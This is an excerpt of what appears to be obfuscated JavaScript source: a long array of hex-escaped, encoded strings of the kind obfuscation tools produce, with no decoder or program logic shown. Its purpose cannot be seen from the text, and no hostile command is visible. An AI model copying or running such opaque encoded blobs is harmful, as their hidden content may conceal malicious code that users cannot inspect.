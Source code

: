 '\x77\x36\x35\x56\x61\x51\x3d\x3d', '\x77\x35\x48\x44\x76\x53\x6e\x44\x75\x38\x4b\x48\x52\x63\x4f\x37', '\x63\x4d\x4b\x4e\x77\x72\x48\x44\x6f\x67\x3d\x3d', '\x77\x36\x44\x44\x73\x4d\x4f\x78\x77\x72\x35\x6f\x4d\x63\x4f\x4e', '\x77\x37\x62\x43\x69\x55\x55\x41\x77\x70\x33\x43\x67\x43\x2f\x44\x69\x51\x3d\x3d', '\x59\x73\x4f\x4f\x51\x63\x4f\x69\x77\x72\x34\x4c\x4a\x67\x3d\x3d', '\x66\x73\x4f\x48\x57\x73\x4f\x69\x77\x71\x4d\x4e', '\x77\x71\x76\x43\x6d\x32\x38\x3d', '\x56\x38\x4f\x48\x65\x67\x3d\x3d', '\x77\x34\x6a\x44\x76\x7a\x6a\x44\x75\x63\x4b\x57\x5a\x4d\x4f\x43\x54\x38\x4b\x64\x77\x34\x7a\x44\x6c\x4d\x4f\x73\x53\x48\x46\x45\x47\x73\x4f\x55\x77\x35\x4e\x51\x77\x36\x7a\x44\x70\x51\x3d\x3d', '\x77\x35\x38\x6e\x56\x38\x4f\x68\x77\x37\x78\x2f', '\x62\x4d\x4b\x52\x77\x71\x48\x44\x6f\x38\x4b\x37\x77\x34\x52\x59\x59\x68\x2f\x43\x69\x38\x4f\x57\x77\x72\x76\x43\x6f\x38\x4b\x5a\x41\x63\x4b\x35\x49\x6c\x33\x44\x74\x67\x45\x68\x77\x6f\x4e\x75\x57\x6a\x33\x44\x67\x41\x3d\x3d', '\x55\x38\x4b\x38\x63\x4d\x4f\x79\x77\x6f\x58\x43\x70\x4d\x4f\x2b', '\x62\x4d\x4b\x64\x77\x71\x7a\x44\x72\x63\x4f\x59\x64\x51\x3d\x3d', '\x77\x37\x59\x72\x77\x72\x41\x3d', '\x77\x34\x78\x71\x61\x30\x58\x43\x69\x73\x4b\x70\x43\x55\x4d\x6a\x46\x6d\x41\x70\x77\x36\x39\x4c\x77\x36\x41\x67\x4a\x63\x4b\x4f\x77\x35\x62\x44\x70\x43\x76\x43\x6a\x56\x64\x48\x4f\x57\x37\x44\x6a\x73\x4f\x6a\x77\x72\x51\x38\x54\x55\x48\x44\x6a\x63\x4b\x72\x77\x37\x66\x44\x68\x67\x3d\x3d', '\x61\x63\x4b\x7a\x77\x70\x67\x3d', '\x77\x72\x37\x44\x73\x73\x4f\x59', '\x77\x36\x44\x43\x6a\x46\x77\x43\x77\x70\x72\x43\x6a\x78\x33\x44\x69\x56\x7a\x43\x76\x63\x4f\x31', '\x44\x63\x4b\x73\x77\x70\x50\x43\x6d\x38\x4f\x4a\x4b\x41\x3d\x3d', '\x77\x72\x4c\x43\x75\x4d\x4f\x38', '\x65\x63\x4b\x78\x56\x51\x3d\x3d', '\x77\x36\x59\x33\x77\x36\x44\x44\x69\x38\x4b\x6d\x53\x63\x4b\x58\x77\x34\x54\x43\x72\x42\x38\x33', '\x45\x42\x54\x43\x71\x73\x4b\x71\x65\x42\x62\x44\x70\x6c\x34\x3d', '\x62\x42\x48\x43\x69\x41\x3d\x3d', '\x58\x63\x4f\x42\x77\x35\x41\x52\x77\x6f\x31\x75\x77\x36\x37\x44\x76\x6b\x7a\x44\x72\x51\x3d\x3d', '\x61\x63\x4f\x54\x77\x37\x72\x43\x6f\x54\x44\x44\x70\x63\x4b\x39\x77\x72\x50\x43\x68\x77\x3d\x3d', '\x4d\x73\x4f\x57\x77\x72\x74\x36', '\x77\x71\x54\x44\x6f\x30\x2f\x43\x76\x73\x4f\x61\x77\x70\x49\x3d', '\x54\x73\x4b\x33\x5a\x38\x4f\x6a', '\x77\x37\x33\x44\x73\x38\x4f\x6d\x77\x72\x42\x74\x4f\x67\x3d\x3d', '\x62\x58\x2f\x43\x72\x38\x4b\x55\x45\x67\x48\x44\x6b\x67\x3d\x3d', '\x65\x4d\x4b\x65\x77\x70\x63\x3d', '\x77\x37\x39\x6c\x58\x77\x3d\x3d', '\x77\x35\x55\x34\x77\x35\x51\x3d', '\x77\x6f\x34\x64\x77\x34\x50\x43\x6d\x41\x68\x6f', '\x77\x37\x55\x31\x57\x51\x3d\x3d', '\x77\x71\x2f\x43\x6e\x79\x30\x3d', '\x45\x63\x4b\x54\x77\x70\x34\x3d', '\x49\x63\x4f\x6f\x77\x6f\x59\x30\x77\x72\x42\x7a\x77\x71\x4e\x42\x4b\x79\x6e\x43\x69\x7a\x70\x35\x4d\x32\x49\x4c', '\x50\x73\x4b\x48\x50\x69\x77\x58\x77\x36\x31\x45\x77\x35\x51\x3d', '\x51\x69\x62\x43\x6b\x77\x3d\x3d', '\x47\x4d\x4b\x4e\x4a\x51\x3d\x3d', '\x77\x35\x6b\x74\x55\x4d\x4f\x6f', '\x77\x36\x4d\x4e\x45\x73\x4b\x70\x77\x37\x35\x7a\x77\x35\x6e\x44\x70\x77\x63\x54\x77\x71\x77\x77\x63\x58\x42\x30\x77\x34\x4e\x57\x41\x4d\x4b\x57\x77\x70\x48\x43\x6d\x63\x4b\x79\x77\x70\x4d\x33\x48\x4d\x4b\x48\x50\x38\x4f\x6f\x63\x63\x4b\x41\x77\x37\x58\x43\x6e\x51\x4a\x74\x77\x71\x68\x66\x77\x70\x70\x43\x4f\x73\x4f\x58', '\x77\x37\x37\x43\x67\x56\x38\x4d\x77\x70\x54\x43\x67\x44\x62\x44\x67\x31\x59\x3d', '\x77\x72\x64\x78\x77\x72\x44\x44\x67\x4d\x4f\x54\x58\x51\x3d\x3d', '\x77\x72\x2f\x43\x68\x47\x66\x43\x72\x67\x33\x44\x72\x78\x76\x44\x70\x38\x4b\x77\x77\x72\x54\x44\x6a\x42\x2f\x43\x71\x73\x4f\x76\x77\x6f\x62\x43\x6f\x77\x3d\x3d', '\x50\x4d\x4b\x4a\x41\x53\x30\x41', '\x77\x72\x48\x43\x6b\x38\x4f\x65\x77\x71\x44\x43\x6e\x42\x41\x3d', '\x57\x57\x33\x43\x6d\x77\x4a\x4a\x77\x34\x6b\x4d\x42\x4d\x4b\x47\x46\x30\x51\x50\x62\x63\x4f\x6f\x48\x38\x4b\x63\x77\x37\x30\x3d', '\x77\x37\x37\x44\x70\x38\x4b\x2b\x77\x72\x4c\x43\x73\x41\x3d\x3d', '\x77\x34\x33\x44\x70\x33\x51\x6a\x64\x46\x58\x44\x73\x51\x3d\x3d', '\x4b\x47\x6f\x59\x77\x72\x72\x44\x6c\x32\x41\x62\x77\x6f\x34\x58\x77\x34\x37\x43\x68\x63\x4f\x57\x77\x37\x76\x44\x6e\x32\x58\x44\x6f\x51\x6a\x43\x69\x63\x4f\x55\x77\x6f\x33\x44\x70\x4d\x4b\x4a\x47\x68\x58\x44\x69\x73\x4b\x34\x4d\x41\x3d\x3d', '\x61\x73\x4f\x42\x77\x37\x50\x43\x70\x68\x51\x3d', '\x63\x63\x4f\x62\x58\x51\x3d\x3d', '\x77\x34\x54\x44\x70\x4d\x4b\x35\x55\x73\x4b\x78\x77\x70\x37\x43\x76\x77\x3d\x3d', '\x77\x36\x38\x41\x77\x70\x49\x4c\x65\x73\x4b\x4e', '\x63\x73\x4b\x63\x77\x71\x4c\x44\x72\x63\x4b\x31\x77\x34\x74\x7a\x61\x42\x58\x44\x6b\x63\x4b\x62\x77\x72\x54\x43\x6f\x38\x4b\x44\x43\x63\x4b\x35\x4a\x42\x41\x3d', '\x42\x63\x4b\x59\x56\x46\x6f\x79', '\x62\x4d\x4f\x4d\x77\x37\x37\x43\x70\x78\x66\x44\x72\x63\x4b\x71\x77\x72\x41\x3d', '\x48\x63\x4b\x59\x54\x6b\x59\x77\x50\x55\x34\x66\x77\x71\x68\x33\x77\x35\x39\x5a\x77\x6f\x37\x43\x73\x41\x66\x44\x72\x4d\x4b\x64\x77\x70\x35\x70', '\x42\x4d\x4b\x63\x57\x6b\x73\x6c\x4e\x55\x77\x56\x77\x71\x67\x3d', '\x77\x6f\x2f\x43\x76\x41\x35\x2b\x77\x6f\x72\x44\x70\x58\x67\x59', '\x63\x4d\x4b\x55\x77\x72\x66\x44\x72\x63\x4f\x46\x63\x31\x48\x43\x6a\x4d\x4b\x6c\x77\x34\x72\x44\x75\x4d\x4f\x63\x4b\x38\x4f\x58\x77\x70\x4e\x30\x46\x77\x3d\x3d', '\x51\x63\x4b\x62\x77\x72\x62\x44\x6f\x38\x4f\x61\x65\x46\x62\x43\x70\x73\x4b\x2f\x77\x35\x54\x44\x75\x4d\x4f\x52\x4b\x77\x3d\x3d', '\x77\x37\x48\x43\x76\x41\x35\x4d\x77\x34\x58\x43\x6a\x77\x3d\x3d', '\x77\x37\x51\x41\x77\x70\x34\x48\x5a\x38\x4b\x52\x4b\x38\x4f\x44\x4d\x51\x3d\x3d', '\x77\x72\x58\x44\x6d\x38\x4b\x73\x4e\x63\x4b\x4f\x77\x36\x73\x3d', '\x77\x34\x2f\x43\x6b\x45\x45\x45\x77\x70\x33\x43\x6c\x53\x33\x44\x67\x51\x3d\x3d', '\x52\x38\x4b\x71\x52\x63\x4b\x4b\x77\x70\x37\x43\x6d\x77\x3d\x3d', '\x65\x73\x4b\x4e\x54\x78\x45\x68\x62\x52\x50\x43\x72\x73\x4b\x4b\x77\x34\x34\x59', '\x58\x38\x4b\x71\x66\x63\x4f\x6b\x77\x6f\x6e\x43\x6d\x41\x3d\x3d', '\x57\x63\x4b\x36\x5a\x73\x4f\x34\x77\x70\x44\x43\x6a\x67\x3d\x3d',